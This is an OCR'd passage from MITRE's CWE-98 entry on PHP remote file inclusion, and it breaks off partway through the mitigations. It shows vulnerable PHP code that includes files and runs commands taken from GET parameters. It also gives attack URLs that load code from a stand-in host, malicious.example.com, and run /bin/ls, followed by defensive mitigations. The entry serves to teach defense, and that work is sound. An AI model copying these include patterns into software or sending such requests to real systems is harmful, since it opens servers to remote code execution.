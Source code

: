 CVE-2005-3335 PHP file inclusion issue, both remote and local; local include uses ".." and "%00" characters as a
manipulation, but many remote file inclusion issues probably have this vector .(bad code) Example Language: PHP 
$dir = $\_GET['module\_name'];
include($dir . "/function.php");
(attack code) 
victim.php?module\_name=http://malicious.example.com
(bad code) 
system($\_GET['cmd']);
(attack code) 
victim.php?module\_name=http://malicious.example.com&cmd=/bin/ls%20-l
(attack code) 
/bin/ls -l3/7/24, 3:13 PM CWE - CWE-98: Improper Control of Filename for Include/Require Statement in PHP Program ('PHP Remote…
https://cwe.mitre.org/data/deﬁnitions/98.html 3/5CVE-2009-1936 chain: library file sends a redirect if it is directly requested but continues to execute, allowing remote file
inclusion and path traversal.
 Potential Mitigations
Phase: Architecture and Design
Strategy: Libraries or Frameworks
Use a vetted library or framework that does not allow this weakness to occur or provides constructs that make this weakness
easier to avoid.
Phase: Architecture and Design
Strategy: Enforcement by Conversion
When the set of acceptable objects, such as filenames or URLs, is limited or known, create a mapping from a set of fixed input
values (such as numeric IDs) to the actual filenames or URLs, and reject all other inputs.
For example, ID 1 could map to "inbox.txt" and ID 2 could map to "profile.txt". Features such as the ESAPI
AccessReferenceMap [ REF-185 ] provide this capability .
Phase: Architecture and Design
For any security checks that are performed on the client side, ensure that these checks are duplicated on the server side, in
order to avoid CWE-602 . Attackers can bypass the client-side checks by modifying values after the checks have been
performed, or by changing the client to remove the client-side checks entirely . Then, these modified values would be submitted
to the server .
Phases: Architecture and Design; Operation
Strategy: Sandbox or Jail
Run the code in a "jail" or similar sandbox environment that enforces strict boundaries between the process and the operating
system. This may ef fectively restrict which files can be accessed in a particular directory or which commands can be executed
by the software.
OS-level examples include the Unix chroot jail, AppArmor , and SELinux. In general, managed code may provide some
protection. For example, java.io.FilePermission in the Java SecurityManager allows the software to specify restrictions on file
operations.
This may not be a feasible solution, and it only limits the impact to the operating system; the rest of the application may still be
subject to compromise.
Be careful to avoid CWE-243 and other weaknesses related to jails.
Effectiveness: Limited
Note: The ef fectiveness of this mitigation depends on the prevention capabilities of the specific sandbox or jail being used and
might only help to reduce the scope of an attack, such as restricting the attacker to certain system calls or limiting the portion of
the file system that can be accessed.
Phases: Architecture and Design; Operation
Strategy: Environment Hardening